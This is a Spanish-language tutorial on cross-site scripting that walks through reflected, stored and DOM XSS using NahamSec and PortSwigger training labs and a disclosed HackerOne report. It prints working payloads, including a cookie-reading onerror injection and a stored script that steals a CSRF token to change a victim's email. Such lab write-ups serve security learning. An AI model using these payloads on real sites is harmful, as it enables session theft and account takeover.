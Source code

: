 ![image](https://user-images.githubusercontent.com/88755387/136074041-7872112e-6a49-496d-a959-987fdfc14e1e.png)

- [__¿Qué es?__](#¿Qué-es?)
- [__Impacto__](#Impacto)
- [__Tipos de XSS__](#Tipos-de-XSS)
    - [__Reflected XSS__](#Reflected-XSS)
        - [__Primer ejemplo__](#Primer-ejemplo)
        - [__Segundo ejemplo__](#Segundo-ejemplo)
    - [__Stored XSS__](#Stored-XSS)
    - [__DOM XSS__](#DOM-XSS)

# __¿Qué es?__

El ataque XSS (Cross-site scripting) permite a un atacante ejecutar código arbitrario client-side en el navegador de una víctima. Se puede utilizar para phishing, datos de exfilación, adquisición de cuentas y más.

# __Impacto__

Leer/modificar/eliminar contenido de cualquier página, robar cookies o sesiones de un usuario y obtener acceso a su cuenta, ofrecer contenido malicioso como phishing.

# __Tipos de XSS__

- Reflected XSS 

- Stored XSS: almacena el payload en la base de datos.

- DOM XSS

## __Reflected XSS__

En este caso voy a estar practicando en un laboratorio creado por NahamSec.

[Lab de Nahamsec](https://github.com/nahamsec/nahamsec.training)

Lo primero con lo que nos encontramos es con un formulario que nos está pidiendo nuestro nombre. Si lanzamos el siguiente comando vamos a estar realizando un secuestro de cookie.


![](https://cdn.discordapp.com/attachments/866283809338818580/874823906328981524/si.png)

En este caso concreto no existe ningún tipo de cookie en la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJ-Ug2n3znolYFg9G%2Fimage.png?alt=media&amp;token=32f699c9-ba14-4f1b-989c-0a0368b67da1)
![]()

Podemos observar como primero interpreta el código malicioso y luego nos devuelve el output normal.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJGewZ_3gsBMvxsrt%2Fimage.png?alt=media&amp;token=01bd6c53-4700-4331-83c3-252ec6268e8d)

```xml
test1"><script>alert()</script>
</title><u> h4ns </u> <script>alert(1)</script>
```
Si tenemos un parámetro vulnerable como es en este caso `name` podríamos aprovecharnos y poner nuestro nombre cerrándolo con una `'` para luego decirle a la aplicación que ejecute todo lo que viene a continuación y descarte todo lo que está comentado a partir de las `//` .

```bash
http://xss4.naham.sec/?name=h4ns%27;+alert(1);//aaaa
# ' = %27 (URL Encode)
```
Aquí veriamos el ejemplo:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeLFzinC6HPLxgP0RB%2Fimage.png?alt=media&amp;token=57d97055-638b-40aa-bb88-e2ba6141fcfe)

### __Primer ejemplo__

Una parte de los laboratorios de Nahamsec me pareció super interesante, vamos a echarle un vistazo:

Estamos en la pagina principal de la tienda https://nahamstore.thm y vamos a enviar un directorio invalido como por ejemplo https://nahamstore.thm/h4ns a ver que nos dice la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-MglsgGiYwktcwhyyPmS%2Fimage.png?alt=media&amp;token=3d3c9a66-b9d9-422a-bbf8-b764559e749d)

Ajá lo URL encodea. Vamos a probar a añadirle un parámetro aleatorio como por ejemplo file a ver cual es su respuesta.

```
http://nahamstore.thm/h4ns?file=xss
```

Después de lanzarlo nos damos cuenta que cualquier cosa que pongamos en la barra de búsqueda, si no es encontrado, es reflejado en el cuerpo de la página.

Vamos a añadirle a nuestra petición el tag `<h1>` a ver que nos devuelve la página:

```
http://nahamstore.thm/h4ns?file=<h1>xss
```

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-Mgm0HxBXKQo_KevndPO%2Fimage.png?alt=media&amp;token=c99ccc61-b55c-4295-88b5-b0a471079138)

Perfecto, ya tenemos vía libre para robar unas cookies por ejemplo.

```
http://nahamstore.thm/h4ns?file=<img src=x onerror=alert(document.cookie)>
```
Lo que estamos haciendo en este código de javascript es pedir que nos cargue una imagen llamada `x` pero como esta no existe pues nos va a ejecutar el `alert()`. Esto se produce gracias al parámetro `onerror`.

### __Segundo ejemplo__

En este caso nos vamos a dirigir a uno de los productos que están disponibles para comprar en la tienda, en concreto el de las pegatinas. 

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmClfVhwoT8u8ZRKoE%2F-MgmFI8Jkzv_WorlBicz%2Fimage.png?alt=media&amp;token=5be4d9ac-9c49-42f9-a5a0-f4fea001ade6)

Vamos a abrir el Burp para ver como viaja esta petición:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmFTP6qsMFnnr07dsY%2F-MgmH4eZcU800oWuPwYc%2Fimage.png?alt=media&amp;token=e7a814df-15be-427d-b671-9caeb2f0a1f9)

En seguida nos damos cuenta que hay un parámetro llamado `discount` pero, como podriamos hacer llegar un xss ahí?

Mandamos la petición al Repeater y le damos a `Follow redirect`, lo que vamos a hacer a continuación es lo que muchas páginas webs hacen y es meter un parámetro en la URL de la petición GET. En este caso vamos a introducir `discount`.

Si le mandamos el payload clásico para ver si pasa algo...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXgeGhsDYIN0x--1v%2Fimage.png?alt=media&amp;token=d8c356fd-f959-498f-9f2c-1b12c6486765)

y vemos el resultado en la respuesta del servidor...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXuFvJduTgx_rngeE%2Fimage.png?alt=media&amp;token=758eac22-ff65-4e4f-94e9-05f37a61a176)

nos vamos a dar cuenta que nos han eliminado los caracteres `<>`.

Por lo tanto vamos a eliminarlos de nuestro payload y a crear uno nuevo el cual al pasar el ratón por encima del input nos salte una alerta.

```
http://nahamstore.thm/product?id=2&added=1&discount=11" onmouseover=alert(1);"
```

Podemos verificar que esto se va a ejecutar correctamente si miramos la respuesta:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mgmbv-yMZVbZwCO2LtH%2F-MgmcISZI4kEGHcCJNzr%2Fimage.png?alt=media&amp;token=31fe1f44-c082-43d5-925d-c019570c9a19)

Al final del payload podríamos poner `"` para cerrar comillas o `//` para hacer que esta última se convirtiese en un comentario.

## __Stored XSS__

Estos casos son un poco más complicados debido a su complejidad. Podríamos aprovecharnos de esta vulnerabilidad para realizar un CSRF, vamos a ver un ejemplo. 

Esta vez voy a estar operando en la plataforma de PortSwigger.

[XSS to CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Si miramos el código de la página vamos a observar que tenemos que hacer una solicitud POST a la dirección `/my-account/change-email` . También nos damos cuenta de que existe un anti-CSRF token en un input oculto llamado `token`.

Ahora ya podemos montar nuestro payload el cual deberá cargar la página de la cuenta de usuario, extraer el token CSRF y luego usar el token para cambiar la dirección de correo electrónico de la víctima.

Lo escribimos en algún blog que tenga los comentarios activados y...

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=h4ns@test.com')
};
</script>
```

 Esto hará que cualquier persona que vea el comentario emita una solicitud POST para cambiar su dirección de correo electrónico a h4ns@test.com.

 ## __DOM XSS__

 DOM XSS ocurre cuando javascript refleja datos de un recurso controlado por un atacante (por ejemplo, dentro de la URL) y los pasa a una función más adelante.

Vamos a observar algún ejemplo:

[Reporte de hackerone](https://hackerone.com/reports/324303)

Este tipo de XSS es mucho mas complicado que los anteriores y es necesario tener conocimientos a cerca de javascript y HTML.

La persona que reportó esta vulnerabilidad nos cuenta como a partir del siguiente código interpeta que está buscando una localización para cargar una página en particular dentro de esa web.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeYUWdJwE1INxoBHj1%2Fimage.png?alt=media&amp;token=e1fce6b9-904d-422e-860a-5a16a9f464ae)

Un atacante puede poner su payload en el enlace y se incrustará en el output de la página:

```
https://mycrypto.com/#send-transaction<div/class="header__wrap"><a/href=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif></div>
```

Aquí tendríamos el resultado:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeZ5ESHG-WrSmxRdIV%2Fimage.png?alt=media&amp;token=6d18cbbb-4311-424a-b803-7c860b7fd82a)

En concreto sería este tipo de evento el que se está vulnerando:

[Location href Property](https://www.w3schools.com/jsref/prop_loc_href.asp)
